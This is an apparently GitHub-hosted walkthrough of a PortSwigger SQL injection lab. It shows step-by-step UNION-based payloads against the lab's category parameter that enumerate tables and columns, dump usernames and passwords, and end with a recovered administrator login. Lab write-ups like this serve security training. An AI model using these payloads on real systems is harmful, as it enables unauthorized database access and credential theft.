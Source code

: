 ## Welcome, my friend. Today we will start the [6. SQLLI lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/f17bc9a0-0bda-4b47-a63e-702ed1dde70f)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/23edabf1-a2d9-4720-816c-54ddb6a6217d)


### We discover this page and find category paramater   ```/filter?category=``` :
![image](https://github.com/user-attachments/assets/261d3a25-5382-42de-91d2-02303de91557)

### Let's test and inject this param:

```
filter?category=Gifts' UNION SELECT NULL--
```
![image](https://github.com/user-attachments/assets/cff628bd-8a08-484c-a593-7e4b57252943)


### Ok, no there one value , Let's go guess 2 value:

```
filter?category=Gifts' UNION SELECT NULL,NULL--
```

![image](https://github.com/user-attachments/assets/056eb728-7a0e-4b36-8ffb-65de49ba06c2)

### Wow, We discover this page and find category paramater   ```/filter?category=``` Is vulnerablity and inject this payload for gathering all tables:

```
filter?category=Gifts'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
```

![image](https://github.com/user-attachments/assets/4db967d6-49b4-4e50-b0d1-b6b832df1f90)

### We find important table ```users_qjvuzj```:

![image](https://github.com/user-attachments/assets/b06a9301-520e-4b18-b954-18dbe42cbf5e)

### Now, We will discover columns in this table through this payload:

```
filter?category='+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_qjvuzj'--
```

![image](https://github.com/user-attachments/assets/1aade639-8159-4ca5-b7a6-75292f757c78)

#### Now dump all columns in this table throught this payload:

```
filter?category=' UNION SELECT username_zdzexo,password_vywuvq FROM users_qjvuzj--
```

![image](https://github.com/user-attachments/assets/d3a475a1-97aa-4671-9a26-0e2f10f0d12e)

## OR

```
filter?category=' UNION SELECT NULL,username_zdzexo||':'||password_vywuvq FROM users_qjvuzj--
```

![image](https://github.com/user-attachments/assets/452a777a-5e50-4543-8f6a-361ae334161b)


### WOW! We got on ```administrator account``` Let's login:

```
administrator:zun2npdg6a6bo3wbs2tu
```


![image](https://github.com/user-attachments/assets/8c942c00-4050-4aae-b8d2-50e79de5d08f)



### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
